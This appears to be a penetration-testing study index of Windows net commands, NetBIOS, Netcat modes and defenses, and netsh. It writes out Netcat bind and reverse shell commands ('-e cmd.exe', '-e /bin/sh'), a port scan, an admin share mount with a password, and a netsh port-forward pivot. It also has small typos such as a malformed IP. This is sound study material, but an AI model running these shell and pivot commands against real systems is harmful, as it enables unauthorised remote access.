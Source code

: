 

* `Commands`;
    * `Accounts`; Lists the password and lockout attributes. 
    * `localgroup`; Displays the name of the server and the names of local groups on the computer. [1:43 | 5:39,5:52 | 6:28]
    * `Session`; Lists or disconnect sessions between the computer and others on the network.  Displays information about all sessions with the local computer. [2:92,2:95]
    * `start`; Used to start a network service or list running network services. 
    * `use;` Shows any NetBIOS/SMB connections a host has initiated to other systems. Connects a computer to or disconnects a computer from a shared resource, or displays information about computer connections. [2:84-85,2:92]
        * `Set up an admin session with a remote system and mount share “one” on your system example`; net use \\10.0.0.1\one adminpassword /u:adminuser
    * `user`; Lists the users and also net users. Adds or modifies user accounts, or displays user account information. (/del to remove specified SMB session) [2:86 | 5:39]
    * `view`; List of computers and network devices on the network. Displays a list of computers in your current domain. [2:85]

`NetBIOS`; On older Windows NT and 2000 systems SMB was carried over the NetBIOS protocol which used TCP and UDP ports 135 through 139. [2:83]

`Netcat (nc/Ncat)`; Moves data across the network [3:86], port scanning [3:87], making connections to open ports [3:88-89], backdoors [3:88-89] and relays (transferring data from machine to machine using standard I/O redirection) [3:90-91]. [3:82-94]



* `Modes`; 
    * `Client Mode (Default)`; Starts a connection to a specific port. You can pipe a program’s output to Netcat or pipe Netcat’s received data into a program. [3:83]
    * `Listen Mode (-l)`; Waits for connections on a specific port. All data received from the network is put on standard output. [3:84]
* `Examples`; 
    * `nc.exe -L -p 43567 -e cmd.exe;` Start a netcat listener on port 43567 and subsequently receive access to the Windows Command Prompt. 
    * `nc [serverIP] [Port] -e /bin/sh`; Pushes a shell from client to a listener
    * `nc -v -w3 -z 192.168.116.122 1-1024`; Conducting a port scan of TCP ports 1-1024. -z Means send minimal data. 

`Netcat Defense`; Defense against Netcat depends on the mode in which it is used. [3:92]



* `Modes`;
    * `Data Transfer`; Know what is running on your systems. [3:92]
    * `Port Scanner`; Close all unused ports. [3:92]
    * `Connecting to Open Ports`; Call all unused ports. [3:92]
    * `Backdoors`; Know what is running on your systems. [3:92]
    * `Relays`; Carefully architect your network with layered security. [3:92] 

`netsh`; Allows you to display or modify the network configuration of a computer that is currently running. Allows an investigator to collect detailed Windows Firewall configuration information from a host. [1:39]



* `Examples`; 
* `netsh advfirewall show currentprofile`; Examine built-in firewall settings. [1:39]
* `netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=7582 connectaddress=192..168.1.24 connectport=80`; Pivot to 192.168.1.24. 
